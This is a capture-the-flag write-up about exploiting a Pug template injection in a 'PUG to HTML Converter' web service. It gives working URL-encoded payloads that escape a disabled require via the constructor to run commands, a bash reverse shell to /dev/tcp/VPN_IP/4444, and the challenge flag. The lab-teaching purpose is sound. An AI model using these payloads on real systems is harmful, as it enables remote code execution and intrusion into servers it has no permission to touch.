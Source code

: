```yaml
---
sticker: lucide//book-template
---
```


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 5000 | HTTP    |



# RECONNAISSANCE
---

Let's check the website out:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250606121148.png)

We are dealing with something called `PUG to HTML Converter`, **Pug** (formerly called Jade) is a server-side templating engine for Node.js that uses indentation and terse syntax to generate HTML. Under the hood, Pug compiles these templates into JavaScript functions that build an HTML string. Any interpolation tags, like `#{…}` (escaped) or `!{…}` (unescaped), are evaluated as JavaScript expressions at render time.

Let's check an exploit for this: 

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250606121717.png)

We got RCE via SSTI, let's proceed to exploitation.

# EXPLOITATION
---


First of all, we should send the request to our proxy, I'll be using Caido:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250606121819.png)

As seen, we got a `template` parameter, let's try doing the SSTI:

```
template=doctype+html%0Ahead%0A++title+Test%0Ah1+Result%3A+%23%7B7*7%7D
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250606122035.png)


As seen, we get:

```html
<pre>&lt;!DOCTYPE html&gt;&lt;head&gt;&lt;title&gt;Test&lt;/title&gt;&lt;/head&gt;&lt;h1&gt;Result: 49&lt;/h1&gt;</pre>
```


That means `7*7` is being evaluated so, SSTI works, let's try reading more files and even attempt the RCE, let's try using the `require` function:

```js
template=h1+%23%7Brequire%28%27child_process%27%29.execSync%28%27id%27%29.toString%28%29%7D
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250606122552.png)

Require seems to be disabled on here, we can do a little trick with the `constructor` function:

```js
template=h1+%23%7Bthis.constructor.constructor%28%22return+process%22%29%28%29.mainModule.require%28%27child_process%27%29.execSync%28%27id%27%29.toString%28%29%7D
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250606122635.png)

There we go, `rce` works, let's send ourselves a reverse shell now:

```js
template=h1+%23%7Bthis.constructor.constructor%28%22return+process%22%29%28%29.mainModule.require%28%27child_process%27%29.execSync%28%22bash+-c+%27bash+-i+%3E%26+/dev/tcp/VPN_IP/4444+0%3E%261%27%22%29%7D
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250606122827.png)

Nice, we got our shell, no need to perform privilege escalation, we can simply read our flag:

```
find / -type f -name "flag.txt" 2>/dev/null\
/usr/src/app/flag.txt

user@774c7a0d6226:/tmp$ cat /usr/src/app/flag.txt
flag{3cfca66f3611059a0dfbc4191a0803b2}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250606123957.png)

